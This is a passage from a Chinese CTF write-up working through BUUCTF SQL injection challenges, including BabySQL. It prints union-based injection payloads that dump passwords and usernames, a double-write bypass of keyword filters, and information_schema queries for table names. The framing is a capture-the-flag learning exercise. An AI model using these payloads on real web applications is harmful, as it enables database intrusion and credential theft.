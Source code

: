 接着构建payload爆他们的数值

```sql
1' union select 1,2,(select group_concat(password) from l0ve1ysq1)#
1' union select 1,2,(select group_concat(id) from l0ve1ysq1)#
1' union select 1,2,(select group_concat(username) from l0ve1ysq1)#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732202707881-295a21b8-376a-43d1-826c-b55a5eadfec1.png)

最后是在password字段发现flag

## BUUCTF <font style="color:rgb(33, 37, 41);">[极客大挑战 2019]BabySQL 1</font>
还是万能公式起手

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203725280-0f68a7f7-659a-46e1-bed2-d2ed9f84c952.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203753482-6d98ce83-a9e7-4fa5-b29a-b2bec258abe4.png)

根据回显报错发现or被过滤掉了 于是用 <font style="color:#601BDE;">|| </font><font style="color:#000000;">来代替</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203838539-b343b1d4-0cf2-4412-aa13-869658e328a4.png)

又发现了这个回显页面 还是试着用联合注入寻找回显位置

```sql
1' union select 1,2,3#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732203972208-4ea33db5-541b-4553-bf75-03196722dca0.png)

根据回显报错发现union select 被过滤了

双写绕过

```sql
1' ununionion selselectect 1,2,3#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732204696895-ae4b3211-aaf0-4de5-8fa9-27c207495f48.png)

爆出数据库名字payload

```sql
1'  ununionion selselectect 1,2,database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732204912329-1d7b4e7a-696d-4db2-b2a4-76c2c3c3add9.png)

接着构建payload爆数据库中的表名

```sql
1'  ununionion selselectect 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #
```
